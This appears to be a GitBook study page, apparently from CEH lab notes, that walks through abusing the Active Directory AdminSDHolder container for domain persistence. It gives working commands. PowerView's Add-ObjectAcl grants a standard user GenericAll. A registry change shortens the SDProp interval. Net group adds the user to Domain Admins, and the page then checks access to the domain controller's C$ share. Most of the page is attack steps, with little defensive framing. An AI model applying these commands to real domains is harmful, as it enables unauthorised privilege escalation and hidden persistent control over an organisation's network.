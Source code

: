 # Exploiting Active Directory Objects

**AdminSDHolder** is an Active Directory container with the default security permissions, it is used as a template for AD accounts and groups, such as Domain Admins, Enterprise Admin, etc. to protect them from unintentional modification of permissions.

If a user account is added into the access control list of **AdminSDHolder**, the user will acquire “**GenericAll**” permissions which is equivalent to domain administrators.

1. create the payload and upload to target then set up the listener
2. upload **PowerTools-Master** folder to the target system.

{% embed url="https://github.com/PowerShellEmpire/PowerTools?tab=readme-ov-file" %}

3. Access the target shell, then go to `C:\WIndows\System32` , type `powershell`&#x20;

As we have access to PowerShell access with admin privileges, we can add a standard user Martin in the CEH domain to the AdminSDHolder directory and from there to the Domain Admins group, to maintain persistence in the domain.

4. Navigate to `C:\Users\Administrator\Downloads\PowerView`where the folder we upload before, type `Import-Module ./powerview.psm1`&#x20;
5. To add user named **Martin** to ACL, type `Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName Martin -Verbose -Rights All`&#x20;
6. To check the permissions assigned to **Martin**, type: `Get-ObjectAcl -SamAccountName "Martin" -ResolveGUIDs`&#x20;

We can see that user Martin now has GenericAll active directory rights. Normally that changes in ACL will propagate automatically after 60 minutes, we can enter the following command to reduce the time interval of SDProp to 3 minutes.

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /V AdminSDProtectFrequency /T REG_DWORD /F /D 300
```

> (Microsoft doesn’t recommend the modification of this setting, as this might cause performance issues in relation to LSASS process across the domain.)

7. Add user **Martin** to **Domain Admins** group as he is already having all the permissions. `net group "Domain Admins" Martin /add /domain`&#x20;
8. To verify it, log as **Martin** and in cmd try access `dir \\[ip domain]\C$` will list the C:/ Drive.

We can see that the Domain Controller is now accessible to Martin and thus domain persistence has been established. Can also use the additional commands in the table below to extract sensitive information such as users, groups, domains, and other resources from the target AD environment.

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>
